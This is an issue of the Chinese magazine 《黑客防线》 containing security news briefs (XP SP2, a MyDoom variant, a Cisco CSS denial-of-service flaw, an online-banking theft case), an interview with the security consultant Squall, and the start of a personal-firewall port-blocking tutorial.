- 37 期全部文章涉及的代码
- 涉及文章合计 840 万字
- 1000 多名作者的 1000 多篇技术文章
- 让你即点即看，简单方便，最全、最详实、最权威

全国各地图书市场、报刊零售点热卖！

邮购地址：北京中关村邮局 008 信箱　邮购部　邮编：100080

电话：010-62141446　传真：010-62141360

无须邮资，另加挂号费 2 元

### 卷首语

#### 你——信息爆炸时代的主宰

在 Internet 以惊人速度发展的今天，作为一本月刊，我们认为现在的传播速度远不足人意。尽管编辑部全体人员呕心沥血，力求在截稿之前将最新的内容加载上去，但印刷周期、发行周期仍然困扰着我们，我们追求着安全技术的第一时间实时交互，一旦转入传统的工业流程，一切就不得不变得滞后，每期的杂志出刊后我们都诚惶诚恐，生怕犯错！

当最新的漏洞和最前沿的技术初显端倪的时候，我们的杂志往往已经完成了后期的排版和校对，送到工厂准备印刷。但是，危险的漏洞、最新的技术像新鲜的“蜜糖”一样吸引着我们，如果本月没能赶上发表，“蜜糖”就会变质，我们就会担心会有很多读者因为不了解漏洞而被攻击，很多朋友因为了解最新技术比别人慢了一步而面临被社会淘汰的可能！作为一本力争抓住网络安全主流，引导技术前沿的杂志，我们唯一能做的，就是将读者放在永远的第一位。所以，撤下已做好的版面，将工厂生产线上正在印刷的杂志拿下来，换上最新的攻防文章，这是我们唯一能给读者们提供方便的地方了。

另一方面，网络的迅速发展给传统的纸面媒体带来了很大的冲击。当今社会，再不是几年前所谓的信息时代，谁获取的信息量大谁就是行业的主宰……错了！全错了！那早已是昨日传奇。今天，信息是以爆炸的态势并发的，任何人都不可能掌握全部海量的信息，那我们该如何利用信息来为自己服务呢？“信息过滤”就成为今天的“黄金”。谁能过滤出对自己最有用的信息资源并合理利用，谁就是信息爆炸时代的主宰。所以，每期的杂志，我们都一审再审，过滤再过滤，尽心竭力给广大读者提供最新的、最实用的信息资源，让我们每个读者都能第一时间向“信息爆炸时代”的主宰发展。虽然我们还有很多不足需要改进，但路必将一直走下去，即使路途坎坷，但前途必定光明！

很高兴的是，聪明的你没有走向平庸，选择了我们，选择了《黑客防线》。这就是个不平庸的开始！我们可以非常肯定地预测：在人才竞争如此激烈的今天，只要连续阅读《黑客防线》半年以上，并且将每期内容大体掌握、时常温习，筛选出对自己最有用的攻防技术，加以研究、掌握，肯定会有一份薪水丰厚的工作，再不必担心失业的困扰！来吧，让我们披荆斩棘、携手向前！

## CALLING TRENDS

### 新闻动态



### WinXP SP2 牺牲兼容性，部分软件可能无法使用

微软不久将发布 Windows XP 的 SP2 补丁包。同时可能会有一些软件开发商发现自己的软件无法在更新后的 Windows XP 系统上运行。据微软公司透露，对 SP2 所作的变更主要集中在下列 4 个领域：网络保护、内存保护、电子邮件安全和浏览器保护。受影响最大的部分包括 RPC（远程程序调用）、DCOM（分布式组件对象模式）、Windows 防火墙和内存保护。

微软在这一版的补丁包中更为关注的是改善系统的安全性，向后兼容的能力被放在了第二位。微软呼吁所有的软件开发商尽快测试他们的代码与测试版 SP2 补丁包的兼容性，以避免自己开发的软件不能在这一更新下正常运行。

### 危险病毒播报及防毒建议

据瑞星全球反病毒监测网介绍，最近有一个病毒特别值得注意，它是：“SCO 炸弹变种 H（Worm.Novarg.h）”病毒。“SCO 炸弹变种 H”是“SCO 炸弹（MyDoom）”病毒的新变种，技术特性与之相似，利用电子邮件传播，在感染的系统里开放后门，利用这些被感染的系统攻击特定网站，建立随机多个线程对 Symantec.com 发动 DDoS 攻击。

反病毒专家建议：建立良好的安全习惯，不打开可疑邮件和可疑网站；关闭或删除系统中不需要的服务；很多病毒利用漏洞传播，一定要及时给系统打补丁；安装专业的防毒软件进行实时监控，平时上网的时候一定要打开防病毒软件的实时监控功能。

### 微软更新清除工具，能让卸载程序“安全死”

微软已于近日更新了安装程序清除公用程序 Windows Installer CleanUp Utility（ICUU）。使用全新的 ICUU，用户可以清除程序的 Windows Installer 配置信息。

当遇到程序的安装（设置）问题时，用户可能会想清除掉 Windows Installer 中的程序配置信息。ICUU 正是微软为适应用户的这一需求而推出的，它具有以下特性：

- 提供一个对话框让用户选择一个或多个由 Windows Installer 安装的程序。用户可以在 Windows Installer CleanUp 对话框的“已安装产品（Installed Products）”列表里选择程序。在用户作出了选择之后，该公用程序只会删除和被选择的程序相关的配置信息。
- 删除文件和注册表设置。在删除配置信息过程中，ICUU 并不会删除 Windows Installer 本身，也不会删除其他由 Windows Installer 安装的任何文件，如 Microsoft Office 2003 等。

微软最后提示说，如果用户使用了这一公用程序删除某一程序的 Windows Installer 配置信息后想要重新安装该程序的话，必须把程序安装在原来安装的同一个文件夹中。

### 惠普发布安全补丁，修补了 Tru64 UNIX 操作系统漏洞

惠普日前发布了一个安全补丁，修补了 HP Tru64 Unix 操作系统中存在的一些“极为严重”的问题。此前有消息说，攻击者利用这些漏洞甚至可以获得对被攻击系统的完全控制。

惠普并没有提供有关这些漏洞的详细信息。据悉，这些漏洞与 IPsec/IKE 验证过程中存在的错误有关。IPsec/IKE、IPSec 可以为 IP 协议提供加密安全保护，在部署企业虚拟私人网络方面应用比较广泛。

## IDC：中国信息安全市场 07 将增至 6.7 亿美元

IDC 预测，2007 年全球安全市场的总额将从 2002 年的 639 亿美元增长为 1,188 亿美元，其中硬件、软件和服务的市场占有率将分别为 32.4%、34% 和 33.6%，其市场规模平均增长率分别是 11.8%、12.2% 和 15.8%。按照 IDC 对安全的新定义，安全领域可细分为物理安全、信息安全和业务连续性安全，信息安全是安全市场增长最多的领域。IDC 预测，亚太区信息安全的市场规模将从 2003 年的 37 亿美元增长为 2007 年的 83.4 亿美元，而中国信息安全市场则从 2 亿美元增长为 6.7 亿美元，年均增长率为 34%，远远超过整个亚太市场 22.9% 的年均增长率。

盘中的文件复制副本。

### Cisco CSS 11000 系列内容服务交换机畸形 UDP 包拒绝服务漏洞

Cisco 11000 CSS 交换机不正确处理发送给 app-udp 的畸形 UDP 包，远程攻击者可以利用这个漏洞对交换机进行拒绝服务攻击。Cisco 11000 CSS 交换机包含默认的用于管理的 5002 TCP app-udp 端口。攻击者发送畸形 UDP 包到此端口，可使运行 Cisco WebNS release 5.0(x) 和 6.10(x) release trains 的 CSS 11000 系列内容交换机重载。这个漏洞即使是 CSS 11000 系列内容交换机没有启用网络 Proximity 功能也照样存在。

### 因黑客多？部分美网站不对客户资料被盗负责

如果你想在网上购物或者浏览某些新闻站点，向网站提供详细的个人资料并注册是个必不可少的工作。比如，目前《纽约时报》、《华盛顿邮报》和《洛杉矶时报》等美国报纸网站采取免费注册阅读方式，大名鼎鼎的《华尔街日报》干脆只有付费用户才能阅读其内容。虽然全部收集客户信息的网上商家都强调，不会主动向外界公布各类涉及客户隐私的重要情况，但随着黑客攻破网站防火墙事件的频繁发生，网上形成了一个颇为红火的被盗信用卡交易市场，许多公司和个人在不知不觉间自己成为黑客袭击的牺牲品。

为了避免“麻烦”，许多著名的美国公司近日纷纷宣称，无论自己的安全防护工作是否到位，都不会因客户的个人资料被网上黑客盗走而承担法律责任。据悉，此类“推卸责任”的事前声明基本都在商业网站的“服务条款”中有明确表述，只有使用者决定接受这样的“不平等条约”才能继续操作。

但一般用户往往因粗心大意而无视此类“警告”，只是将所有的单选框点击了事，以便更快完成自己的网上交易或者下载活动，从而主动放弃了保护自己权利的机会。美消费者权益组织强调，电子商务公司拒绝承担泄密责任是不负责任的胡言。

## “黑客”轻松偷支网上银行资金53万

黑龙江省哈尔滨市 3 名在校大学生采取网上作案，竟偷支银行资金 53 万余元。2 月 27 日，哈尔滨市检察院以涉嫌盗窃罪将张玉龙等 3 名犯罪嫌疑人大批逮捕。

犯罪嫌疑人宋成林、张玉龙、陆国星、卜义君均系哈尔滨某大学在校学生。2003 年 2 月，宋成林在某银行注册了网络银行业务即灵通卡后，便经常上网研究网上银行，并抄录了 158 名注册上网的客户资料，开始预谋从网上偷支银行资金。今年 1 月初，宋成林与张玉龙合谋，成功地将网上别人账户资金转到自己办的灵通卡账户内。接着，宋成林又用自己的照片办了一张假名为刘峰的身份证，先后在某银行的 6 家网点办理了 6 张灵通卡。1 月 8 日凌晨，宋成林、张玉龙约请其同学陆国星、卜义君进入某银行网页，将该行客户资金 78 万余元分别划入 6 张灵通卡账户上。9 日上午，宋成林等 4 人用了一上午的时间，先后去哈尔滨市 1—10 家储蓄所共提款 53 万余元。此时，张玉龙提出，这钱大多数是宋成林转取的，让宋快出去躲一躲。于是，宋成林拿走 3 万余元逃跑。

### 微软呼吁各界合作实现 IM 互通

在周三举行的 IM（即时信息）Planet 博览会上，微软即时通信产品设计师 Paul Haverstock 利用开幕演讲的机会，再次强调了 IM 产品互通性的重要，呼吁业界共同完成 IM 标准的归一化。IBM 和微软开发的 IM 软件，是目前应用最广泛的企业即时通信产品，两家公司均支持 SIMPLE 协议（对话初始化即时通信和现场支持协议）。然而，除此之外还存在与其竞争的另外一种协议阵营——XMPP（扩展消息与现场协议），这种协议的使用者以 Jabber 公司为代表。尽管目前两大阵营在互用性问题方面仍相安无事，但将两种标准集成为一个标准定能使行业受益非浅。

### 人大代表邮箱遭黑客攻击，原有邮件均被删除

首个对外公开的全国人大代表邮箱——李林楷邮箱 lin_k223@163.com，昨日遭到“黑客”攻击，邮箱内原有邮件均被删除，只剩下一封带病毒邮件。昨日下午 4 时许，李林楷邮箱开始出现异常：每次刷新，都可以看到有新邮件进入，但邮件总数却在变少。20 分钟后，当邮箱被再次刷新时，邮箱里除了一封新邮件外，其它所有的邮件全都不见了！经查看，有 24 封被转存在“草稿箱”（给邮箱主人用来保存信件草稿用的，非知晓密码者无法进入），另有 26 封被放到了“回收站”，其余信件均被删去。而邮箱中唯一剩下的新邮件，则被杀毒软件警示携有病毒。

全国人大代表李林楷 2 月 25 日通过本报向全社会公布邮箱，并成为全国首位公布邮箱的人大代表。本报 2 月 25 日在头版头条作了报道，题为《李林楷打开邮箱纳民意》。至昨日下午 4 时，邮箱共收到有具体建议、意见的来信 102 封。然而，李林楷邮箱遭遇了比普通电子邮箱更为严重的邮箱灾害——每日都会收到超过 20 封的商业垃圾邮件（向李代表推销产品或服务）及病毒邮件（只要打开就将给电脑系统带来损害），每日均需清理。

文／Heavyd

## 圈内圈外话 Squall



Squall 这个名字早已在网络安全圈内有所耳闻，技术和人品都不错，只是一直没有机会跟他聊聊，这次在黑防编辑田锋的介绍下来访了 Squall，这回可是公私兼顾了。今年 23 岁的他，已经是某公司的信息安全顾问／安全专员了，曾主持开发了一套 IDS 系统、紧急事件响应以及 Honeynet 的研究。

在网络安全圈内，Squall 以其扎实的技术功底而闻名；在圈外，Squall 凭着不错的人品而被朋友称赞。其实在黑防创刊初期，Squall 就开始支持我们的杂志，发表过多篇文章，相信许多读者从他的文章中学习到了不少有用的知识，也有相当一部分读者就是从他的文章开始认识他的。

### 圈外——简单生活

在圈外的日常生活中，Squall 是一个内向的人，业余生活比较简单。本来想更多地了解现实的生活，可没想到居然如此的简单，业余生活主要就是音乐。音乐是他的最爱，偏爱欧美的 RAP 和 ROCK 音乐。

做安全的人，特别是做技术的人，工作会比较辛苦，而且和一般人的作息时间有较大的差别，Squall 就是这样。在忙碌了一天，回家之后放松自己的主要方式就是音乐，可以说音乐就是一剂补充精神动力的良方！在朋友聚会的时候，Squall 也会即兴地唱上几首，抒发自己的感情，看来 Squall 的感情世界相当丰富。

音乐是 Squall 的业余生活的重要组成部分，当然，除了音乐之外，有空还喜欢看看电影，玩玩电玩。一切都那么简单，这就是现实生活中的 Squall。

### 圈内——技术是追求

提起关于计算机的话题，Squall 的话匣子打开了，变得侃侃而谈，可以感受到他对这份事业的热情追求和执著。当回忆起当初的入门学习，回忆起这些年所走过的路，往事历历在目。

Squall 从初中开始就接触计算机，学习 Basic 编程，到了高中便开始学习 Pascal 语言，功底不错，还写了一个游戏，去参加竞赛。到了大学，学校开设了 Fortran 语言，虽然现在用不上了，但是很锻炼思维。也就是这些编程语言的学习，让他的思维变得严谨，为将来在安全领域工作打下了良好基础。从笔者过去采访的几位名人来看，他们都有一个共同点——编程是他们的必经之路。

通过这一系列的学习之后，Squall 对计算机越来越有兴趣了。在大学时，他遇到一个好老师，是教软件技术基础的，那时候开始对算法和数据结构有兴趣，同时也感觉到 C 语言很重要，想开始学习。不过他的学习方法有些奇怪，因为开始没直接系统地学习 C 语言，而是看数据结构里面 C 的代码。因为曾经有扎实的编程功底，很快便对数据结构中的代码有了感觉，这时候才开始系统地学习 C 语言。最后，去考计算机四级和高级程序员轻松考过了，但是现在觉得没什么用。在中国网络安全技术联盟商业化以后，也就是安盟成立以后，Squall 就溜到安盟去了，在那里学到很多东西；也就在那时候在安全方面有了飞跃，毕竟是和一群很不错的人在一起工作，提高很快，学习的东西很多。

到了安盟，Squall 先负责漏洞库的整理建设，所以那时候了解的东西就多了，特别是漏洞方面，所以也就有想学更多东西的想法。以前接触到的漏洞里面，他发现了 *nix 下的一个符号连接漏洞，虽然简单但是危害不小，在学习过程中还发现 setuid 这个安全特性很有趣，所以就开始了解 *nix 系统的特性。以前都是在 DOS 和 Windows 下工作的，所以要从头学起。于是，Squall 找了不少书来看，因为要装系统学习而配置 LILO 很麻烦，所以就干脆在 VMware 下使用，这样就成了 VMware 的使用高手，天天在上面装系统。这些听起来很有意思，他就是在 VMware 中找到了自己的乐趣，后来“发神经”地找了个 VMware ESX Server 来装，以前都是用 Workstation 的。而在这时候的 Squall 才真正体会到了，在安盟觉得要做安全，无论如何都得有良好的基础。所以下定决心要学习汇编和 TCP/IP，可惜汇编学习未果，毕竟是从高级语言的学习开始，看汇编实在没感觉。现在他对 TCP/IP 的了解已经是了如指掌了。

当然，这个过程中的困难当然也是很多的，Squall 是这样说的：“因为安全这个领域说白了，你要真的深入进去，需要了解掌握的东西实在是太多了，有太多的东西需要去学习，经常就遇到了未知的领域，别人能给你的只是建议和一些指导，要去了解当然也得靠你自己。所以，遇到困难，自己去学习，去看，去克服，当然别人的一些帮助也很重要。所以说，路在自己脚下，自己的路要自己走。”

这一个过程听起来像是挺轻松的，但却真的不轻松，这一路上洒下的汗水和所付出的辛苦，只有 Squall 才能真正体会到。有道是“一份耕耘，一份收获”，相信 Squall 在将来能得到更丰厚的回报。

### Squall 的话

> “我一直认为在这个领域，你要做好，就得比计算机其他领域了解更多的东西，付出的努力也得更多，你的业余时间也许会比别人少，别人的不理解，自己的寂寞也许会比别人多，但是只要你真正是喜欢，真正是以这个为理想，那么我认为是值得的！”
>
> 这是 Squall 在这个圈内所经历的深深体会，从这些话可以理解表面的成绩需要背后多少的辛勤付出，只有真正付出了，才能得到希望得到的！

就中国的当前情况看来，我们的技术是落后的，Nmap 是国外的，NC 是国外的，Linux 这个黑客的经典是国外的，Apache 是国外的，Nessus 是国外的，Snort 也是国外的，大家都在跟着别人走，用别人的东西在改。SQL Injection 是国外前几年讨论的热点了，在我们这里去年是特别的火，为什么？因为有人发现可以用它来做一些事情了，但是最先研究的人，并不是我们。只有当我们可以看到直接的结果的时候，好多人才开始去关注，但是在最初的时候呢，我们并没有！在看清我们国家的当前形势之后，更应该努力发展，应该有更多我们自己的东西，Squall 是这样说的：

> “可能我说得会有点过，但是都会是心里话，我觉得现在大体都比较浮躁。除了少数的一些人以外，我一般找资料学习都是去国外的站，国内的也只去 XFOCUS、ISFOCUS 看，因为国内真正安心在学习和提高，潜心做技术研究的人太少，当然这个也有我们国家的因素。但是我觉得这个圈子里面的好多的人，特别是现在刚刚进入到这个领域的人，很多都是浮躁，一些东西，都追求表面的一些结果，而不去追究内在的东西，学习的东西也是，太过于表面。其实作为一个安全行业的人，需要懂的东西实在太多。要做安全，你首先得是一个合格的程序员，一个合格的网络工程师，甚至还需要了解技术外的一些东西。你不懂系统的内部特性行吗？你不了解网络的协议行吗？如果只追求某种方法、某些‘招数’，那么你永远也只是跟着别人在走！”

Squall 的话给这个圈子中的很多人敲响了警钟，我们国家在这方面起步较晚，要改变现在的情况，不是少数的人努力就行的，而是应该大家一起努力，戒骄戒躁，共同改变中国的落后面貌。

最后这些话是 Squall 送给我们黑防的读者们，作为这次采访的结束，希望能给各位读者一些启示：

> “我只是想说，我并没有什么东西觉得自己很特别，但是我觉得我还是想说一下，做任何事情之前，首先得问问自己，自己究竟做这个的目的是什么，自己追求的东西是什么。什么东西，你要去掌握，要去突破和超越，要有创造，首先你得深入地去了解它。如果只追求眼前的那些‘成就’，那永远也是跟着别人在走。Richard Stevens 一直是我心目中真正的黑客，建议大家好好去看看他的那几本书，并不是一定非要去仔细学习里面的细节，而是去学习他做技术的态度和思想。还有就是想说，世界上没有轻易获得的成功，一切得到的背后都有很多的付出，我想继续走安全之路，走我理想的路。我也希望大家能够走好自己的路，找到自己真正的理想，虽然前面一切都未知，但是我认为世界上还是有信念与努力这种东西的。当然，也会有成功！”
>
> 相信只要经过努力，就一定能成功！

刘流：网络世界从诞生那天起，就从未平静过，人们在享受网络带来的各种便利的同时，却忽视了另一类人在网络上虎视眈眈！防火墙为了维护网络应有的宁静而挺身而出，接着便是各种攻击程序的率先涌现，攻与防两者互不相让，Internet 成了双方较量的战场，无辜的网民和疏于防范的企业成为了这次“战争”的“牺牲品”！在这样的风浪中如何屹立不倒？请看下文，让你明了什么是真正的防火墙，什么是真正的无坚不摧！



## 你也能做安全专家

## ——将个人防火墙的功能发挥到极致

文／图·岑进锋

> **前言**

防火墙是什么？抽象地说，“防火墙”是指一种将内部网和公众访问网（Internet）分开的方法，实际上是一种隔离技术。防火墙是在两个网络通讯时执行的一种访问控制措施，它能允许你“同意”的数据进入你的网络，同时将你“不同意”的数据拒之门外，最大限度地阻止网络中的黑客来访问你的网络，防止他们更改、拷贝、毁坏你的重要信息。

#### 防火墙的常用防范招数

那针对网络上越来越多的攻击行为，我们到底应该如何利用我们手中的防火墙呢？下面就来介绍一下防火墙常用的防范招数，其中绝大部分是针对个人用户而言的——千万不要认为我们的个人防火墙很弱！经过详细的设置，我们的个人防火墙是非常难攻破的！

##### 1．端口管理

防止端口扫描和屏蔽特定端口，可以理解为通往计算机的通道。如果将计算机比作一所房子的话，那么端口就是这所房子上的窗口，计算机正是通过一个个这样的“窗口”对外提供服务的。在默认情况下，哪个端口打开着就说明计算机提供了哪些相应的服务，如 21 号端口开放，说明计算机提供 FTP 服务；23 号端口的开放则表示提供 Telnet 服务等。但是请注意：提供服务的计算机和接受服务的计算机端口并不是一一对应的。比如你的电脑作为客户机访问一台 WWW 服务器时，WWW 服务器使用“80”端口与你的电脑通信，但你的电脑则可能使用“3558”这样的端口与之连接。

端口分 TCP 端口和 UDP 端口两种。由于 TCP 和 UDP 两个协议是独立的，因此各自的端口号也相互独立，比如 TCP 有 235 端口，UDP 也可以有 235 端口，两者并不冲突。

黑客在确定目标 IP 地址之后紧接着的一步工作，就是对目标的端口进行扫描。通过“端口扫描”确定被扫描计算机开放哪些服务，然后才能进一步搜集服务程序的漏洞来入侵。网上很容易找到远程端口扫描工具，如防火墙有完全的否决权，可以禁止你的电脑接收 Internet 上的任何东西。因此，用防火墙屏蔽特定端口可以有效防止黑客对端口的扫描与攻击。它的工作原理是：每个数据包在到达电脑后，首先被防火墙检查，防火墙根据安全规则决定放行还是拒绝。当第一个请求建立连接的包被你的电脑回应后，一个“TCP/IP 端口”被打开；端口扫描时，对方计算机不断和本地计算机建立连接，并逐渐打开各个服务所对应的“TCP/IP 端口”及闲置端口，防火墙经过自带的拦截规则判断对方是否正在进行端口扫描，并拦截掉对方发送过来的所有扫描需要的数据包。

各款防火墙软件对端口的操作都是大同小异的，以瑞星个人防火墙为例，打开端口管理界面。欲关闭本机的 TCP 或 UDP 端口，在“操作”项中选择“禁止”；在“方向”选择中，如果只想禁止接收功能，则选择“接收”；如果只想禁止发送，则选择“发送”；然后在“协议”中选择“TCP”或“UDP”。选择上述参数后，在“目的端口设置”中进行设置：这里提供了针对单一端口、连续端口以及任何端口的设置策略，我们可以根据自己的实际需要自行设置。如图 1 所示。



图 1 瑞星个人防火墙禁止 135 端口

若要禁止别人共享你的文件，请用上面方法屏蔽 139 端口。如果你装的是 Windows XP 或者 Windows Server 2003，平时你只是上上网并不作为服务器的话，就更应该屏蔽掉本机的服务端口，如 FTP、Web 等服务的端口。不清楚这些服务对应的端口号并不重要，只要用 Windows 系统自带的防火墙软件就可以轻松屏蔽，下面以 Windows Server 2003 为例介绍。鼠标右键单击“网上邻居”，选择“属性”，然后鼠标右键单击“本地连接”，选择“属性”，在出现的窗口中，选择“高级”选项，选中“Internet 连接防火墙”，确定后防火墙即开启，同时单击“设置”按钮，在“服务”选项卡中勾掉所有的服务即可。如图 2 所示。经过这些设置之后，攻击者用 X-scan、SuperScan 之类的扫描工具再扫描本机时，会发现端口已被屏蔽。

